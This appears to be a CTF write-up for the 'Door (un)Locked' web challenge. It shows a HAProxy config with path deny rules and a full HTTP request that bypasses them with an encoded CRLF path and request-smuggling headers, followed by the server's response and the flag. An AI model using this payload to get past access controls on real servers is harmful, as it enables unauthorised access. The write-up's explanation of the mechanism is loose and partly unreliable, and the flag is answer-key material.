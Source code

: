 # Intent CTF 2021 - Writeups - Door (un)Locked

Category: Web, Points: 100

![ctf.JPG](images/ctf.JPG)

And attached file [ha.cfg](./ha.cfg)

# Door (un)Locked  - Solution

Let's browse to the web page from challenge description [http://door-unlocked.chal.intentsummit.org:8000/](http://door-unlocked.chal.intentsummit.org:8000/):

![webpage.JPG](images/webpage.JPG)

By observing the attached file [ha.cfg](./ha.cfg) we get:
```console
┌─[evyatar9@parrot]─[/intent_ctf/web/door_unlocked]
└──╼ $ cat ha.cfg
global
    daemon
defaults  
    mode    http
    timeout  client  50000
    timeout  server  50000
    timeout  connect 50000
frontend web 
    bind *:8000  
    http-request deny if { path_beg /flag }
    http-request deny if { path,url_dec -m reg ^.*/?flag/?.*$ }
    default_backend websrvs
backend websrvs 
    http-reuse always
    server srv1 flask:5000

```

As we can see, We are unable to access the path that includes the ```flag```.

This is a [HAProxy](http://www.haproxy.org/) configuration file.

To bypass the ```http-request deny``` we can use [HTTP request smugglingattack](https://portswigger.net/web-security/request-smuggling).

You can read about this attack also here: [https://gist.github.com/ndavison/4c69a2c164b2125cd6685b7d5a3c135b](https://gist.github.com/ndavison/4c69a2c164b2125cd6685b7d5a3c135b).

So we can use the [CRLF Injection request smuggling attack](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a) by sending the following request:
```http
GET /%0d%0a/../flag HTTP/1.1
Host: door-unlocked.chal.intentsummit.org:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Content-Length: 540
Transfer-Encoding: chunked
Connection: keep-alive
X-Forwarded-For: 127.0.0.1
Upgrade-Insecure-Requests: 1


```

And we get the flag:
```http
HTTP/1.1 200 OK
server: nginx/1.21.4
date: Sat, 20 Nov 2021 18:09:16 GMT
content-type: text/html
content-length: 29
last-modified: Fri, 12 Nov 2021 20:51:37 GMT
etag: "618ed3d9-1d"
accept-ranges: bytes

INTENT{Smuggl3_w1th_H4_Pr0xy}
```

```INTENT{Smuggl3_w1th_H4_Pr0xy}```.

The reason that it works is the ```HAProxy``` split the request into two different requests, one is ```/%0d%0a``` and the second one ```../flag```, Because there is no rule about path that start with ```/```  which is URL decode of ```/%0d%0a```.